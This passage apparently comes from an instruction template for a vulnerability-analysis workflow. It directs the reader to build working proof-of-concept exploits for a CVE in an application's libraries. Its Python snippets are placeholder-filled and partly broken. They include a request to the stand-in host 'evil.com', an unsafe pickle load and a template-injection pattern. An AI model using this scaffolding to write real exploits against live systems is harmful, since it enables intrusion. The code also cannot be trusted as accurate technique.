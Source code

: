 ## Step 4: Current CVE Library Exploit Development

**Objective**: Create working demonstrations that prove the CURRENT CVE vulnerability can be exploited through the application's usage patterns of the affected library.

**FOCUSED ANALYSIS**: Develop exploits ONLY for the current CVE. Previous CVE exploit details should not influence this analysis.

**CVE Library PoC Development Framework**:

### A. CVE Dependency Injection Exploits
```python
# Example: CVE-specific vulnerable library function exploitation
# CVE-2023-XXXX in requests library (hypothetical)
import requests

# CVE-specific malicious payload
cve_payload = {
    "url": "http://evil.com/cve-exploit",
    "headers": {"X-CVE-Exploit": "cve_specific_payload"}
}

# Application code that triggers CVE vulnerability
response = requests.get(cve_payload["url"], headers=cve_payload["headers"])
# Impact: Remote code execution through CVE vulnerability
```

### B. CVE Serialization Library Exploits
```python
# Example: CVE in Pickle/YAML deserialization
# CVE-2023-YYYY in PyYAML (hypothetical)
import pickle
import yaml

# CVE-specific malicious serialized payload
cve_pickle = "cve_specific_pickle_payload"
cve_yaml = "cve_specific_yaml_payload"

# Application usage that triggers CVE
data = pickle.loads(base64.b64decode(cve_pickle))
# Impact: Code execution during CVE-vulnerable deserialization
```

### C. CVE Template Engine Exploits
```python
# Example: CVE in Jinja2/Template injection
# CVE-2023-ZZZZ in Jinja2 (hypothetical)
from jinja2 import Template

# CVE-specific template payload
cve_template = "{{ cve_specific_jinja2_exploit }}"

# Application usage that triggers CVE
template = Template(cve_template)
result = template.render()
# Impact: Server-side template injection via CVE
```

